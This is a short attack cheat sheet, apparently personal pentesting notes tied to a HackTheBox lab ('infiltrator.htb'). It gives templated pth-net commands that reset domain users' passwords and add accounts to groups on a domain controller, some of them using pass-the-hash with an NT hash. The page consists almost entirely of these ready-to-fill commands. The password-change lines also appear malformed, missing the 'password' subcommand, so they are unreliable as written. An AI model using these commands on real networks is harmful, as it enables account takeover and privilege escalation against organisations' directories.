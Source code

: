 # pth-net
#plateform/linux #target/remote #cat/ATTACK


## pth-net changing password
```
pth-net rpc '<NEW_PASSWORD_FOR_TARGET>' '<TARGET_USER>' '<PASSWORD>' -U 'infiltrator.htb'/'<CONTROLLED_USER>'%'<CONTROLLED_PASSWORD>' -S '<DOMAIN_CONTROLLER_IP>' 
```

## pth-net adding group
```
pth-net rpc group addmem '<GROUP_TO_ADD>' '<USER>' -U "infiltrator.htb"/"<CONTROLLED_USER>"%"<CONTROLLED_PASSWORD>" -S "<DOMAIN_CONTROLLER_IP>" 
```

## pth-net Adding a group member with hash
```
 pth-net rpc group addmem '<GROUP_TO_ADD>' '<USER>' -U '<DOMAIN>'/'<CONTROLLED_USER>'%'ffffffffffffffffffffffffffffffff':'<NT_HASH>' -S '<DOMAIN_CONTROLLER_IP>'
 ```

## pth-net changing password with hash
```
pth-net rpc <NEW_PASSWORD_FOR_TARGET> <TARGET_USER> -U <DOMAIN>/<CONTROLLED_USER>%ffffffffffffffffffffffffffffffff:<NT_HASH> -S <DOMAIN_CONTROLLER_IP>
 ```

